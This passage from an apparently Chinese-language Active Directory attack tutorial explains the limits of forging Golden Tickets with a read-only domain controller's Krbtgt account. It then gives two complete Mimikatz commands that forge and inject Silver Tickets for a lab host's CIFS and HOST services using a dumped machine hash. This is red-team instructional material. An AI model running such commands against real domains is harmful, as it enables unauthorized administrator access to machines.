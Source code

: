 ![image-20231123142554958](/assets/posts/2023-11-27-revisiting-a-abuse-of-read-only-domain-controllers/image-20231123142554958.png)

值得注意的是，由于标准域 Krbtgt 账户与 RODC 自身 Krbtgt 账户的隔离，使用 RODC 的 Krbtgt 并不是真正意义上伪造出 Golden Tickets。因为它必须传递到 RODC 作为 KDC 进行身份验证的工作站或站点中，并且目标工作站的计算机账户必须将其凭据存储在 RODC 上，否则它将无法工作。

## Silver Tickets

如果攻击者可以转储 RODC 上的 NTDS.dit，并且能够提取到计算机账户的哈希时，就可以用这个哈希值，通过 Mimikatz 工具伪造 Silver Tickets 来接管这台计算机（这里是 WIN-IISSERVER）。

（1）执行以下命令，用 WIN-IISSERVER 的哈希伪造其 CIFS 和 HOST 服务的 Silver Tickets 并提交到内存中：

```powershell
# 伪造 CIFS 服务票据
mimikatz.exe "kerberos::golden /domain:corp.local /sid:S-1-5-21-1076904399-1612789786-3660608273 /target:WIN-IISSERVER.corp.local /rc4:db5c5213ddf59e59f7f625ce2910fc71 /service:cifs /user:Administrator /ptt" exit

# 伪造 HOST 服务票据
mimikatz.exe "kerberos::golden /domain:corp.local /sid:S-1-5-21-1076904399-1612789786-3660608273 /target:WIN-IISSERVER.corp.local /rc4:db5c5213ddf59e59f7f625ce2910fc71 /service:host /user:Administrator /ptt" exit
```
